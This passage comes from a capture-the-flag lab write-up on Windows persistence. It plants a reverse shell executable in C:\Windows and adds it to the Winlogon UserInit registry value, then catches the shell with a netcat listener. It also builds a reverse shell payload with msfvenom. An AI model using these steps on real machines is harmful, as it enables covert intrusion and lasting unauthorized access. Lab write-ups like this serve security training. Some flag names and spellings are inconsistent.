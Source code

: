 ```PowerShell
-a----         7/7/2023   5:31 PM           7168 revshell.exe
```
8. `move <PAYLOAD NAME>.exe <DESTINATION PATH>` from the compromised Windows machine to move the payload from the current working directory into the **C:\Windows** directory
```PowerShell
```PowerShell
PS C:\Users\Administrator>move revshell.exe C:\Windows
        1 file(s) moved.
```
9. `regedit` from the compromised Windows machine to open the Registry Editor (**regedit**), which we'll then head to **HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon** and append the path to our payload to the **UserInit** registry's value, which is a Windows Registry that specifies the path to an executable file that's executed during the user login process
```PowerShell
C:\Users\Administrator>regedit
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Regedit%20Open.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Regedit%20Winlogon%20pt2.png)

10. After successfully executing the previous tasks, we'll log out and then log back in to the compromised Windows machine, which upon logging in, creates a reverse shell that connects back to our attack machine's netcat listener

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Sign%20Out.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnect.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnected.png)

```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.236.33 49956 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
11. `C:\flags\flags12.exe` from the reverse shell on our attack machine to run the **flag13.exe** program, which ended up containing this task's flag and displaying it onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag12.exe
C:\flags\flag12.exe
THM{I_INSIST_GO_FIRST}
```


#
## Logon Scripts

1. Started up this task's machine
2. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACK MACHINE IP> LPORT=<PORT NUMBER> -f <PAYLOAD FORMAT> -o <PAYLOAD NAME>.exe` from our Linux attack machine to use Metasplout's msfvenom to generate a Windows executable for a reverse shell payload that we'll execute on the compromised Windows machine
```Bash
root@ip-10-10-157-221:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.157.221 LPORT=9999 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```